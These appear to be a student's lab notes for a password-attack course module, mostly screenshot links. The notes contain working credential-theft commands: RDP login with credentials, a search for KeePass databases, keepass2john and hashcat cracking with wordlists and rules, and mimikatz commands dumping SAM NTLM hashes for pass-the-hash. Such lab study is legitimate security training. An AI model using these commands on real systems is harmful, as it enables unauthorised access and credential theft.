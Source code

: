 ![[Pasted image 20231018195629.png]]
![[Pasted image 20231019184215.png]]

see the port #21 and 3389
![[Pasted image 20231019184345.png]]
got the information needed, next going to try to rdp into it
└─$ xfreerdp /v:192.168.208.202 /u:itadmin /p:hellokitty 
[18:44:12:592] [7443:7444] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[18:44:12:593] [7443:7444] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
2.0.8...2.0.2.
[18:44:13:663] [7443:7444] [INFO][com.winpr.sspi.NTLM] - [length=46] 
**[18:44:14:865] [7443:7444] [ERROR][com.freerdp.core.transport] - BIO_read returned a system error 104: Connection reset by peer**
[18:44:14:865] [7443:7444] [ERROR][com.freerdp.core] - transport_read_layer:freerdp_set_last_error_ex ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
[18:44:14:865] [7443:7444] [ERROR][com.freerdp.core] - freerdp_post_connect failed

since it is reset by peer, I must find another way, trying FTP
![[Pasted image 20231019184709.png]]

### 15.1.2 HTTP POST
![[Pasted image 20231019190607.png]]

![[Pasted image 20231019200421.png]]

### 15.2.2 Question 1 & 2  (Rule-Based Attack)

[rule_based_attack [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=rule_based_attack)

![[Pasted image 20231021050258.png]]
![[Pasted image 20231021050357.png]]

![[Pasted image 20231021050443.png]]


![[Pasted image 20231021050507.png]]
![[Pasted image 20231021051658.png]]

### 15.2.4 Password Manager Attack

after checking the apps and seeing a password manager, transfer the database to your Kali
**Use Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue**
according to the DB that you found
![[Pasted image 20231021055533.png]]
once found and transfer, remove the hashes from the DB using **Keepass2john**
and > to create a file
![[Pasted image 20231021055325.png]]

after looking for the type of hash using the 
hashcat --help | grep -i "KeePass"
we get the result and compare it to the hashcat reference
![[Pasted image 20231021060050.png]]

![[Pasted image 20231021060101.png]]

We run the cmd with the predetermined rules

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

![[Pasted image 20231021060714.png]]

#### Question 2
![[Pasted image 20231021060740.png]]

![[Pasted image 20231021061519.png]]

![[Pasted image 20231021061534.png]]

Once I downloaded the file from the RDP session

![[Pasted image 20231021061942.png]]
once the password is found
go back to the machine and login with the master key
![[Pasted image 20231021062431.png]]
and you get the flag!

### 15.2.5 Question 2

![[Pasted image 20231021065138.png]]

![[Pasted image 20231021103124.png]]

![[Pasted image 20231021104730.png]]
check out the curl code
![[Pasted image 20231021104757.png]]
![[Pasted image 20231021104803.png]]
![[Pasted image 20231021104819.png]]

![[Pasted image 20231021155221.png]]
remove the id_rsa portion of  it
ad the rockyou.txt in the list
![[Pasted image 20231021155442.png]]

![[Pasted image 20231021155509.png]]


### 15.3.1 Cracking NTLM Question 2

![[Pasted image 20231021164943.png]]
![[Pasted image 20231021165006.png]]
go to mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

![[Pasted image 20231021165157.png]]
after getting the NTLM
load it to Kali to crack it
after cracking it using hashcat -m 1000(NTLM code) steve.hash(hash transferred)
rockyou.txt(password list) /usr/share/hashcat/rules/rockyou-3000.rule --force
you get the password to rdp into system

perform the steps as the module suggests to get your 
![[Pasted image 20231021165457.png]]
### 15.3.2 Passing NTLM
perform the steps presented in the module. once in, you can search the flag
![[Pasted image 20231021172431.png]]





